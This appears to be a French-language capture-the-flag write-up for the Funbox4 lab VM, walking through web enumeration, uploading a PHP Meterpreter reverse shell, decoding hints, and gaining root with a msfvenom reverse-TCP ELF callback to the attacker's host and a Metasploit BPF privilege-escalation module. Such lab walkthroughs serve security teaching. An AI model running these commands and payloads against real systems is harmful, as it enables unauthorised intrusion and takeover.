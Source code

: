 # Funbox4 : CTF

L'objectif de cette VM est de trouver le flag sur la machine cible en utilisant une élévation de droit.

## Sommaire

1. [Mise en place](#mise-en-place)
2. [Site Internet](#Site-internet)
3. [Script PHP](#Script-PHP)
4. [Augmentation des droits](#Augmentation-des-droits)

## Mise en place

Adresse IP hôte : **192.168.1.51**

Adresse IP cible : **192.168.1.23**

Ports disponibles :

![nmap](./images/nmap.png)

## Site internet

Le site internet est ce qu'il semble être le plus simple à attaquer.

![site](./images/port80.png)

Nous avons pour l'instant seulement accès à la page par défaut de apache.

Utilisons `dirb` et `nikto` pour voir s'il y a des vulnérabilités.

`sudo dirb http://192.168.1.23` 

![dirb](./images/dirb.png)

`nikto -h 192.168.1.23 80` 

![nikto](./images/nikto.png)

Pour l'instant, rien ne ressort réellement.

Sans trop savoir, j'utilise `wpscan` au cas où le site utiliserai WordPress.

![wpscan](./images/wpscan.png)

Par hasard, essayons de voir ce que donne le `/robots.txt`.

![robots](./images/robots.png)

Ça ne marche pas. Cependant, sur la page Vulhub, l'auteur de ce CTF mentionne une histoire de majuscule. On peut tenter des routes avec des premières lettres en majuscules ou des noms complets en majuscules.

![capIndex](./images/capsIndex.png)

![capServ](./images/capsServStat.png)

![capRob](./images/disallow1.png)

![capRob2](./images/disallow2.png)

Ok, super maintenant, on a une piste. Regardons ce que contient ces dossiers/fichiers.

![dirIgm](./images/dirigm.png)

![dirUp](./images/dirupload.png)

`/igmseklhgmrjmtherij2145236` existe, on n'y a juste pas accès. Avec cette info, trouvons s'il existe des sous-dossiers grâce à `dirbuster`. Pour augmenter le nombre d'essais, on va utiliser le fichier `directory-list-2.3-medium.txt`.

![dirbuster1](./images/dirbuster1.png)

![dirbuster2](./images/dirbuster2.png)

On obtient plusieurs résultats tels que `/upload`, `/upload.php` et `upload.html`.

Voyons ce que donne cette page php.

![upPhp](./images/upload.php.png)

Donc, on a accès à une page nous permettant d'upload des fichiers sur la machine cible. On peut alors comme dans un des tps précédents, utiliser un script php pour se connecter avec un shell à la machine cible.

## Script PHP

Pour ce faire, on va utiliser `metasploit`.

On choisit d'utiliser le payload `php/meterpreter/reverse_tcp` et on paramètre l'adresse local et le port local.

![exploit1](./images/exploit1.png)

Ensuite, il faut upload via le site notre script php malveillant. On va ici réutiliser celui du tp précédent.

![exploit2](./images/exploit2.png)

Pour activer la connexion, on essaye de se connecter au fichier uploadé.

![exploit3](./images/exploit3.png)

Ensuite on retourne sur metasploit.

![exploit4](./images/exploit4.png)

![ls](./images/lsHome.png)

Nous voici sur la machine cible. On peut se balader sur la machine à présent.

![lsRoot](./images/lsRoot.png)

Dans ce dossier se trouve un fichier `hint.txt`, voyons ce qu'il contient.

![hint](./images/hint.png)

Il y a 3 messages codés dans ce fichiers.

Le premier est encodé en brainfuck, un langage de programmation conçu pour avoir le plus petit compilateur possible.

![brainfuck](./images/brainfuck.png)

Le deuxième message est encodé en base64.

![base64](./images/base64.png)

L'auteur est un petit rigolo.

Le troisième message est encodé en base32.

![base32](./images/base32.png)

Ok, donc on doit chercher un fichier `todos` qui doit contenir de nouveaux indices pour la suite.

![todos](./images/lsTomas.png)

La première étape est de vérifier les backups.

![backups](./images/backups.png)

Il y a des fichiers intéressants, tels que `passwd.bak` mais on n'a pas les droits pour l'ouvrir.

Ça semble être une impasse, alors le plus simple est d'augmenter nos droits afin de pouvoir faire ce que l'on veut sur la machine cible en se connectant en root.

## Augmentation de droits

De la même manière que pour le script php, on va uploader un fichier malveillant sur la machine cible grâce à metasploit.

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.51 LPORT=5555 -f elf -o escalate.elf` 

![escalate1](./images/escalate1.png)

![escalate2](./images/escalate2.png)

Maintenant via notre shell connecté à la machine cible, on va déplacer ce fichier dans le dossier `/tmp` afin de pouvoir l'exécuter.

![escalate4](./images/escalate3.png)

![escalate4](./images/escalate5.png)

Dans une nouvelle instance de metasploit, il faut lancer un listener de la même manière qu'avec le script php.

![escalate6](./images/escalate6.png)

On execute le fichier `escalate.elf`.

![escalate1000](./images/escalate8.png)

Voici la première partie de faite, mais nous n'avons pas encore le droit root. Pour ce faire, on doit lancer un nouvel exploit. On met de côté la session meterpreter que l'on vient de lancer. Pour trouver un exploit qui fonctionnera sur ce système, on peut utiliser une fonction metasploit.

`use post/multi/recon/local_exploit_suggester`

Pour que cela fonctionne, il faut définir la session metasploit à utiliser.

![exploitsug](./images/exploitsug.png)

![sugRes](./images/exploitsugres.png)

On a un bon choix d'exploit disponible, disons que l'on va utiliser le premier.

`use exploit/linux/local/bpf_priv_esc`

![exploitloc](./images/setEscalation.png)

![root1](./images/root1.png)

Nous sommes à présent connecté à la machine cible en root, ce qui nous permet d'accéder au flag. Il suffit maintenant de le trouver.

![flag](./images/flag.png)

Après quelques minutes de recherche, voici le flag.
